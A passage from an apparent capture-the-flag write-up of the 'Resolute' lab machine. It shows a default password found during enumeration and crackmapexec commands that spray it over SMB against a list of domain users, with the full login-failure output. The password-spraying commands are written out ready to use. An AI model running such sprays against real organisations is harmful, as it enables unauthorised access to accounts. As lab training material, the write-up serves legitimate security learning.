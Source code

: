 ```bash
  | marko           | Account created. Password set to Welcome123!              |                                                                                                                                                           
  +                 +                                                           +
```

But it seems like the password is not correct.

```bash
┌──(kali㉿kali)-[~/machines/windows/resolute/rpcenum]
└─$ crackmapexec smb 10.10.10.169 -u 'marko' -p 'Welcome123!' --shares
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
```

Maybe this is the default password when an account is created and another users hasn’t changed it. So let’s create a dictionary with all the domain users and try this.

```bash
┌──(kali㉿kali)-[~/machines/windows/resolute]
└─$ crackmapexec smb 10.10.10.169 -u users.txt  -p 'Welcome123!' --continue-on-success
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Administrator:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Guest:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\krbtgt:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\DefaultAccount:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
```